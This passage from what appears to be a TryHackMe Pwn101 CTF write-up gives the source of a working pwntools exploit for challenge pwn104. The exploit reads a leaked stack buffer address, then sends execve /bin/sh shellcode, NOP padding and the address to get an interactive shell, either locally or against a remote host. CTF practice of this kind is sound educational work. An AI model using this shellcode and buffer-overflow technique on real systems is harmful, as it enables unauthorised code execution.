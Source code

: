 ```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn104.pwn104'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)

# check exploit-db for shellcode https://www.exploit-db.com/exploits/46907
shellcode  = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

io = start()
io.recvuntil(b'at ') #program gives us buffer location, we skip till that part
address = io.recvline() 
bufferLocation = p64(int(address, 16))

exploit  = b''
exploit += shellcode
exploit  += b"\x90"*(88-len(shellcode))
exploit += bufferLocation

io.sendline(exploit)

io.interactive()
```

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2019.png)

## Challenge 5 - pwn105
